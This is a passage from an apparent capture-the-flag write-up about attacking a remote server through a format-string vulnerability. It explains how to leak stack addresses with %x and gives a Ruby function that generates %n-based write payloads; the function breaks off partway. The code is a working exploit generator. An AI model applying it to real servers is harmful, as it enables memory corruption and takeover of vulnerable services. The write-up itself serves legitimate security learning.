 <h2>Using it against the real server...</h2>

The biggest difference between what we just did and using this against the real server is that you can't run a debugger on the server to grab addresses. Instead, you have to leak a stack address and use a relative offset. That's pretty straight forward, though, the format string lets you use "%x" to go up and down the stack trivially.

It's also a huge pain to calculate all the offsets by hand, so here's some code I wrote during the competition to generate a format string exploit for you... it should take care of everything:

<pre id='vimCodeElement'>
<span class="rubyDefine">def</span> <span class="Identifier">create_exploit</span>(writes, starting_offset, prefix = <span class="Special">&quot;&quot;</span>)
  index = starting_offset
  str = prefix

  addresses = []
  values = []
  writes.keys.sort.each <span class="Statement">do</span> |<span class="Identifier">k</span>|
    addresses &lt;&lt; k
    values &lt;&lt; writes[k]
  <span class="Statement">end</span>
  addresses.each <span class="Statement">do</span> |<span class="Identifier">a</span>|
    str += [a, a+<span class="Constant">1</span>, a+<span class="Constant">2</span>, a+<span class="Constant">3</span>].pack(<span class="Special">&quot;</span><span class="Constant">VVVV</span><span class="Special">&quot;</span>)
  <span class="Statement">end</span>

  len = str.length

  values.each <span class="Statement">do</span> |<span class="Identifier">v</span>|
    a = (v &gt;&gt;  <span class="Constant">0</span>) &amp; <span class="Constant">0x0FF</span>
    b = (v &gt;&gt;  <span class="Constant">8</span>) &amp; <span class="Constant">0x0FF</span>
    c = (v &gt;&gt; <span class="Constant">16</span>) &amp; <span class="Constant">0x0FF</span>
    d = (v &gt;&gt; <span class="Constant">24</span>) &amp; <span class="Constant">0x0FF</span>

    [a, b, c, d].each <span class="Statement">do</span> |<span class="Identifier">val</span>|
      count = <span class="Constant">257</span>
      len  += <span class="Constant">1</span>
      <span class="Statement">while</span>((len &amp; <span class="Constant">0x0FF</span>) != val)
        len   += <span class="Constant">1</span>
        count += <span class="Constant">1</span>
      <span class="Statement">end</span>

      str += <span class="Special">&quot;</span><span class="Constant">%</span><span class="Special">#{</span>count<span class="Special">}</span><span class="Constant">x</span><span class="Special">&quot;</span>
      str += <span class="Special">&quot;</span><span class="Constant">%</span><span class="Special">#{</span>index<span class="Special">}</span><span class="Constant">$n</span><span class="Special">&quot;</span>
      index += <span class="Constant">1</span>
    <span class="Statement">end</span>
  <span class="Statement">end</span>

  puts(<span class="Special">&quot;</span><span class="Constant">Generated a </span><span class="Special">#{</span>str.length<span class="Special">}</span><span class="Constant">-byte format string exploit:</span><span class="Special">&quot;</span>)
  puts(str)
  puts(str.unpack(<span class="Special">&quot;</span><span class="Constant">H*</span><span class="Special">&quot;</span>))
